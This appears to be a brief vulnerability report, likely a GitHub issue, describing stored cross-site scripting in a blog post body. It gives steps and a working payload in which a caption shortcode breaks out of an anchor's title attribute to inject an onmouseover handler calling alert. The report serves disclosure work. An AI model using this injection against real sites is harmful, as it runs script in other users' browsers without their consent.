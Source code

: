 # Steps
**Step 1:**
Make a new Post

**Step 2:**
Type the code below into the body of the post 
```
<a href = "[caption code="]></a> <a title = " onmouseover=alert('Hello')">link</a>
```
**Step 3**
A link will appear in the post. Have a user click that link to perform the XSS


